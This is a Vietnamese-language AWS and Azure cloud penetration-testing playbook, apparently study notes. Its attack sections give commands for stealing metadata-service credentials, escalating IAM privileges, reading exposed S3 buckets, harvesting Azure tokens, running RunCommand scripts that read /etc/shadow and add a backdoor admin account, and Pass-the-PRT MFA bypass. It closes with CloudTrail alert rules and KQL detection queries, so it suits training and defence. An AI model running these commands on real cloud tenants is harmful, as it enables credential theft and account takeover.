

# SỔ TAY KIỂM THỬ XÂM NHẬP ĐÁM MÂY: AWS & MICROSOFT AZURE
## CLOUD PENETRATION TESTING & THREAT EMULATION PLAYBOOK
**Mã hiệu:** `SEC-PLAYBOOK-CLOUD-2026`  
**Phiên bản:** `v1.0 - Production Standard`  
**Cơ quan chủ quản:** Red Team Operations & Cloud Security Architecture Group  
**Tiêu chuẩn đối chiếu:** MITRE ATT&CK for Cloud (AWS, Azure, IaaS/PaaS), CIS Cloud Benchmarks, NIST SP 800-145  

---

## 1. TỔNG QUAN KIẾN TRÚC & PHẠM VI TÁC CHIẾN (RULES OF ENGAGEMENT)

Khác với hạ tầng On-Premises truyền thống, kiểm thử an toàn đám mây tuân theo mô hình **Trách nhiệm Chia sẻ (Shared Responsibility Model)**:
- **Nhà cung cấp đám mây (CSP - AWS/Azure):** Chịu trách nhiệm bảo mật *của* đám mây (Security OF the Cloud) — phần cứng vật lý, hypervisor trung tâm dữ liệu, mạng lõi ngầm.
- **Khách hàng (Tổ chức sở hữu):** Chịu trách nhiệm bảo mật *trong* đám mây (Security IN the Cloud) — cấu hình IAM, nhóm bảo mật (Security Groups/NSG), lưu trữ S3/Blob, mã nguồn ứng dụng, khóa mã hóa và dữ liệu.

> [!IMPORTANT]
> **Quy định của CSP (Policies on Penetration Testing):**
> - **AWS:** Cho phép kiểm thử tự do không cần báo trước đối với các dịch vụ do người dùng quản lý: EC2, RDS, CloudFront, Aurora, API Gateway, Lambda, Lightsail, Elastic Beanstalk. Nghiêm cấm: Tấn công DDoS, DNS Amplification hoặc nhắm vào hạ tầng quản lý chung của AWS.
> - **Microsoft Azure:** Cho phép kiểm thử các tài nguyên tenant thuộc quyền sở hữu của khách hàng. Nghiêm cấm: Tấn công DoS, truy cập dữ liệu của tenant khác, quét dải IP công cộng dùng chung vượt quá ngưỡng cho phép.



---

## 2. CHIẾN THUẬT TẤN CÔNG AWS (AMAZON WEB SERVICES ATTACK PATHS)

### 2.1. Khai Thác Instance Metadata Service (IMDSv1 vs IMDSv2)

Dịch vụ Metadata chạy tại địa chỉ link-local `http://169.254.169.254` cung cấp thông tin cấu hình và **thông tin định danh tạm thời (Temporary Security Credentials)** của IAM Role gắn vào máy ảo EC2.

#### Kịch bản 1: Khai thác qua lỗ hổng SSRF (IMDSv1)
Nếu EC2 cho phép IMDSv1, kẻ tấn công khai thác lỗ hổng SSRF trên ứng dụng Web để đọc trực tiếp credentials mà không cần xác thực token:

```bash
# 1. Trích xuất tên IAM Role gắn vào EC2
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 2. Đọc AccessKeyId, SecretAccessKey và Token tạm thời
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```

#### Kịch bản 2: Vượt qua IMDSv2 (Session-Oriented Header Bypass)
IMDSv2 yêu cầu gửi header `X-aws-ec2-metadata-token-ttl-seconds` qua phương thức `PUT` để lấy Session Token trước:

```bash
# Bước 1: Yêu cầu sinh Token phiên IMDSv2 (TTL 60 giây)
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 60")

# Bước 2: Sử dụng Token để truy xuất IAM Credentials
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```

> [!NOTE]
> **Kỹ thuật Phòng thủ Blue Team:**
> - Bắt buộc bật IMDSv2 cho tất cả EC2 instances (`HttpTokens=required`).
> - Giới hạn `HttpPutResponseHopLimit=1` trên EC2 để chặn các container Docker chạy trên EC2 gửi gói tin xuyên qua bridge network tới địa chỉ metadata.

---

### 2.2. Chiếm Quyền & Leo Thang Đặc Quyền IAM (IAM Privilege Escalation)

Khi chiếm được một Access Key ban đầu, kẻ tấn công thực hiện trinh sát và tìm kiếm các quyền nguy hiểm:

```bash
# Cấu hình profile tạm thời cho AWS CLI
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

# Kiểm tra danh tính hiện tại
aws sts get-caller-identity

# Liệt kê các quyền được gán trực tiếp hoặc gián tiếp
aws iam list-attached-user-policies --user-name <CURRENT_USER>
aws iam list-user-policies --user-name <CURRENT_USER>
```

#### 5 Đường Dẫn Leo Thang Đặc Quyền AWS IAM Điển Hình:
1. **`iam:CreateAccessKey` trên người dùng khác:** Kẻ tấn công sinh Access Key mới cho user quản trị viên (`admin`) và chiếm đoạt phiên.
   ```bash
   aws iam create-access-key --user-name target-admin
   ```
2. **`iam:CreatePolicyVersion`:** Nếu có quyền tạo version mới cho chính policy của mình, kẻ tấn công định nghĩa policy với `Action: "*"` và `Resource: "*"`, sau đó set làm mặc định.
3. **`iam:AttachUserPolicy` hoặc `iam:AttachRolePolicy`:** Tự gán policy `AdministratorAccess` vào chính tài khoản của mình.
   ```bash
   aws iam attach-user-policy --user-name my-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
   ```
4. **`lambda:CreateFunction` + `iam:PassRole`:** Tạo một Lambda function chạy với role quản trị cấp cao, sau đó kích hoạt hàm để thực thi mã độc hoặc tạo tài khoản admin mới.
5. **`sts:AssumeRole`:** Tìm kiếm các role tin cậy (Trust Relationships) chéo tài khoản hoặc chéo dịch vụ để chuyển đổi quyền.

---

### 2.3. Trinh Sát & Khai Thác S3 Bucket Hở Cấu Hình

```bash
# 1. Quét quyền truy cập công khai vào S3 Bucket
aws s3 ls s3://<TARGET_BUCKET_NAME> --no-sign-request

# 2. Đọc file nhạy cảm (.env, credentials, database backups)
aws s3 cp s3://<TARGET_BUCKET_NAME>/backup.sql . --no-sign-request

# 3. Kiểm tra quyền ghi (Upload webshell hoặc payload ghi đè trang tĩnh)
aws s3 cp test.txt s3://<TARGET_BUCKET_NAME>/test.txt --no-sign-request
```

---

## 3. CHIẾN THUẬT TẤN CÔNG AZURE & ENTRA ID (AZURE / ENTRA ID ATTACK PATHS)

### 3.1. Thu Thập Token Truy Cập Từ Developer Workstation / Azure CLI

Khi lập trình viên hoặc kỹ sư DevOps đăng nhập qua `az login` trên máy trạm, Azure CLI lưu trữ Access Token dạng plaintext hoặc DPAPI tại:
- **Linux/macOS:** `~/.azure/accessTokens.json`
- **Windows:** `%USERPROFILE%\.azure\accessTokens.json`

```bash
# Đọc token và danh sách Subscription truy cập được
cat ~/.azure/accessTokens.json | jq '.[].accessToken'

# Sử dụng Token gọi trực tiếp Azure Resource Manager (ARM) API
curl -s -X GET "https://management.azure.com/subscriptions?api-version=2020-01-01" \
  -H "Authorization: Bearer <ACCESS_TOKEN>"
```

---

### 3.2. Khai Thác Managed Identity trên Azure Virtual Machine

Tương tự IMDS của AWS, máy ảo Azure VM hỗ trợ Managed Identity (User-Assigned hoặc System-Assigned) tại địa chỉ `http://169.254.169.254/metadata/identity/oauth2/token`:

```bash
# Yêu cầu sinh Token truy cập Azure Resource Manager qua Managed Identity
curl -s -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" \
  | jq -r .access_token

# Yêu cầu Token cho Microsoft Graph API
curl -s -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://graph.microsoft.com/" \
  | jq -r .access_token
```

---

### 3.3. Thực Thi Mã Từ Xa Qua Azure RunCommand

Nếu tài khoản chiếm được quyền `Microsoft.Compute/virtualMachines/runCommand/action`, kẻ tấn công có thể thực thi script PowerShell hoặc Bash với quyền `SYSTEM` hoặc `root` trên bất kỳ máy ảo nào trong Subscription mà không cần mở cổng SSH/RDP:

```bash
# Thực thi lệnh trực tiếp trên Linux VM
az vm run-command invoke \
  --resource-group Production-RG \
  --name Prod-Web-VM \
  --command-id RunShellScript \
  --scripts "cat /etc/shadow"

# Thực thi lệnh trên Windows VM
az vm run-command invoke \
  --resource-group Production-RG \
  --name Prod-DC-VM \
  --command-id RunPowerShellScript \
  --scripts "whoami /priv; net user hacker P@ssw0rd123! /add; net localgroup administrators hacker /add"
```

---

### 3.4. Tấn Công Bắt Giữ Primary Refresh Token (Pass-the-PRT)

Trên các máy tính Windows 10/11 tham gia miền Azure AD Join hoặc Hybrid Azure AD Join, mã định danh **PRT (Primary Refresh Token)** được lưu trữ trong tiến trình LSASS và bảo vệ bởi CloudAP:
- Công cụ: `mimikatz.exe`, `ROADtools`, `AADInternals`.
- Kỹ thuật: Trích xuất PRT từ LSASS bằng quyền Administrator/SYSTEM, sau đó đóng gói vào HTTP header `x-ms-RefreshTokenCredential` để bỏ qua toàn bộ cơ chế xác thực đa yếu tố (MFA) và Conditional Access Policies!

```powershell
# Sử dụng module AADInternals để tương tác với PRT
Import-Module AADInternals
$PRT = Get-AADIntUserPRTToken -Clean
New-AADIntUserPRTToken -RefreshToken $PRT.RefreshToken
```

---

## 4. CHIẾN LƯỢC PHÒNG THỦ & BLUE TEAM DETECTION (HUNTING & HARDENING)

### 4.1. Quy Tắc Giám Sát AWS CloudTrail & GuardDuty

| Kỹ Thuật Tấn Công | Sự Kiện CloudTrail Cần Cảnh Báo | Mức Độ | Hành Động Phản Ứng |
| :--- | :--- | :---: | :--- |
| **IMDS Credential Exfiltration** | Lệnh gọi API có UserAgent chứa `boto3`, `aws-cli` từ IP bên ngoài hạ tầng AWS | **Critical** | Thu hồi Role credentials ngay lập tức bằng chính sách Inline Deny |
| **IAM Policy Tampering** | `CreatePolicyVersion`, `AttachUserPolicy`, `PutUserPolicy` | **High** | Chặn tự động qua EventBridge + Step Function |
| **S3 Public Exposure** | `PutBucketAcl`, `PutBucketPolicy` mở `Principal: "*"` | **High** | Bật AWS S3 Block Public Access ở cấp độ Account |
| **Console Login Without MFA** | `ConsoleLogin` với `additionalEventData.MFAUsed: "No"` | **Medium** | Ép buộc kích hoạt FIDO2/Hardware Token qua IAM Policy |

---

### 4.2. Truy Vấn Săn Lùng Mối Nguy (Microsoft Sentinel KQL)

#### KQL 1: Phát hiện lệnh Azure RunCommand bất thường
```kusto
AzureActivity
| where OperationNameValue =~ "MICROSOFT.COMPUTE/VIRTUALMACHINES/RUNCOMMAND/ACTION"
| where ActivityStatusValue =~ "Success"
| project TimeGenerated, Caller, CallerIpAddress, ResourceGroup, Resource, Properties
| order by TimeGenerated desc
```

#### KQL 2: Phát hiện đăng nhập từ IP lạ vượt qua MFA (Nghi vấn Pass-the-PRT)
```kusto
SigninLogs
| where AuthenticationRequirement =~ "multiFactorAuthentication"
| where AuthenticationDetails has "Previously satisfied"
| where ConditionalAccessStatus =~ "success"
| summarize Count=count() by UserPrincipalName, IPAddress, Location, AppDisplayName
| order by Count asc
```

---

## 5. BẢNG DANH MỤC CÔNG CỤ TÁC CHIẾN ĐÁM MÂY (CLOUD ARSENAL)

| Nhóm Công Cụ | Tên Công Cụ | Nền Tảng | Mục Đích Tác Chiến |
| :--- | :--- | :---: | :--- |
| **AWS Recon & PrivEsc** | **Pacu** | Python | Khung khai thác chuyên nghiệp cho AWS (Rhino Security) |
| **AWS Auditing** | **ScoutSuite** | Python | Quét đa đám mây (AWS, Azure, GCP, Alibaba) tìm lỗi cấu hình |
| **Azure AD Enumeration** | **ROADtools** | Python | Thu thập dữ liệu tenant Azure AD, phân tích đồ thị quyền |
| **Entra ID Toolkit** | **AADInternals** | PowerShell | Khai thác PRT, Federation backdoor, Desktop SSO injection |
| **Metadata SSRF** | **imds_sniffer** | Python / Curl | Kiểm tra và trích xuất thông tin IMDSv1/v2 tự động |

---

## 6. DANH MỤC LIÊN KẾT TÀI LIỆU LIÊN QUAN

- [DIEU_PHOI_LO_TRINH_DOC.md](file:///mnt/second_drive/DOCS/SEC/DIEU_PHOI_LO_TRINH_DOC.md) — Kim chỉ nam điều phối lộ trình học tập toàn diện
- [docs/Roadmap/01_Master_Study_Roadmap.md](file:///mnt/second_drive/DOCS/SEC/docs/Roadmap/01_Master_Study_Roadmap.md) — Tuần 21-22: Tác chiến An toàn Đám mây AWS & Azure
- [docs/References/02_Active_Directory_Attack_and_Defense_Playbook.md](file:///mnt/second_drive/DOCS/SEC/docs/References/02_Active_Directory_Attack_and_Defense_Playbook.md) — Sổ tay tấn công Active Directory & Hybrid Cloud
- [CEH-Notes/Module 19 - Cloud Computing](file:///mnt/second_drive/DOCS/SEC/CEH-Notes/Module%2019%20-%20Cloud%20Computing) — Toàn bộ tài liệu Module 19 CEH v12 về Cloud Security
